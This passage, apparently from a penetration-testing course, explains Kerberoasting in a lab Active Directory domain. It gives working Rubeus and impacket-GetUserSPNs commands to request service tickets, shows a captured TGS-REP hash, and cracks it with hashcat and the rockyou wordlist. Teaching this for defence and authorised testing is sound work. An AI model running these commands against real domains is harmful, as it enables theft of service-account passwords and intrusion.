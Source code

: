 When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN.

These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller.

The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as Kerberoasting.

To perform Kerberoasting, we'll use Rubeus again. We specify the kerberoast command to launch this attack technique. In addition, we'll provide hashes.kerberoast as an argument for /outfile to store the resulting TGS-REP hash in. Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.

```bash
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```bash
kali@kali:~$ cat hashes.kerberoast
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...
...

kali@kali:~$ hashcat --help | grep -i "Kerberos"         
...
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Next, let's perform Kerberoasting from Linux. We can use impacket-GetUserSPNs2 with the IP of the domain controller as the argument for -dc-ip. Since our Kali machine is not joined to the domain, we also have to provide domain user credentials to obtain the TGS-REP hash. As before, we can use -request to obtain the TGS and output them in a compatible format for Hashcat.

```bash
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate3 or rdate4 to do so.

Now, let's store the TGS-REP hash in a file named hashes.kerberoast2 and crack it with Hashcat as we did before.

```bash
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

This technique is immensely powerful if the domain contains high-privilege service accounts with weak passwords, which is not uncommon in many organizations. However, if the SPN runs in the context of a computer account, a managed service account,5 or a group-managed service account,6 the password will be randomly generated, complex, and 120 characters long, making cracking infeasible. The same is true for the krbtgt user account which acts as service account for the KDC. Therefore, our chances of performing a successful Kerberoast attack against SPNs running in the context of user accounts is much higher.
